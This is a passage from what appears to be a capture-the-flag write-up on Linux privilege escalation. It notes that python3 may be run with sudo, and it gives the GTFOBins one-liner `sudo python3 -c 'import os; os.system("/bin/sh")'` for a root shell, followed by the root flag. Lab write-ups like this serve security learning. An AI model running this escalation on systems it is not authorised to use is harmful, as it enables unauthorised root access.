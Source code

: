 ### What This Means:

1. The user has **very broad `sudo` privileges** but cannot directly use `rm`.
2. The ability to run `/usr/bin/python3` with `sudo` is significant, as Python allows execution of arbitrary commands via the `os` or `subprocess` modules.

___
### Let's try to expoit this a get root.
link: https://gtfobins.github.io/gtfobins/python/#shell
command:
```bash
sudo python3 -c 'import os; os.system("/bin/sh")'
```
After this we can get root.


![[Pasted image 20250124214330.png]]

root flag: CTF{L1nux_E5ca1ation_1s_Aw3s0me}

## End

